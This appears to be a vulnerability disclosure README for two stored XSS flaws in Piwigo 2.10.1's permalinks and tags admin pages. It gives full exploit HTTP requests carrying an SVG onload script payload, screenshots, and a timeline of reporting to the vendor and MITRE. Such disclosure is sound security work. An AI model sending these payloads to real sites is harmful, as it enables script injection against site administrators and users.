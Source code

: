 # This is what I achived when research on [Piwigo 2.10.1](https://piwigo.org/)
## Stored XSS in /admin.php?page=permalinks
### Exploit request

```
POST /piwigo/piwigo/admin.php?page=permalinks HTTP/1.1
Host: 192.168.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Origin: http://192.168.10.138
Connection: close
Referer: http://192.168.10.138/piwigo/piwigo/admin.php?page=permalinks
Cookie: pwg_id=ragm92nc6a3rr532fi0h9h6f21
Upgrade-Insecure-Requests: 1

cat_id=3&permalink=%3Csvg%2Fonload%3Dalert%28document.domain%29%3E&save=on&set_permalink=Submit&pwg_token=2048f9dd482aaca003e193045fd4f763
```

### PoC
![](https://github.com/matuhn/Research/raw/master/Piwigo/1.png)
![](https://github.com/matuhn/Research/raw/master/Piwigo/2.png)
# REPORT TIMELINE
# 02/12/2020: Discovered the vulnerability
# 02/12/2020: Contact vendor to confirm the vulnerability
# 02/17/2020: Contact MITRE because vendor is unresponsive


## Stored XSS in /admin.php?page=tags
### Exploit request

```
POST /piwigo/piwigo/admin.php?page=tags HTTP/1.1
Host: 192.168.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://192.168.10.138
Connection: close
Referer: http://192.168.10.138/piwigo/piwigo/admin.php?page=tags
Cookie: pwg_id=kikufgh78rp553s266q6r0sj62
Upgrade-Insecure-Requests: 1

pwg_token=c8dea9237930ccb48c6d1a4e5020b32b&add_tag=%3Csvg%2Fonload%3Dalert%28document.domain%29%3E&add=Submit
```

### PoC
![](https://github.com/matuhn/Research/raw/master/Piwigo/3.png)
# REPORT TIMELINE
# 02/12/2020: Discovered the vulnerability
# 02/12/2020: Contact vendor to confirm the vulnerability
# 02/17/2020: Contact MITRE because vendor is unresponsive
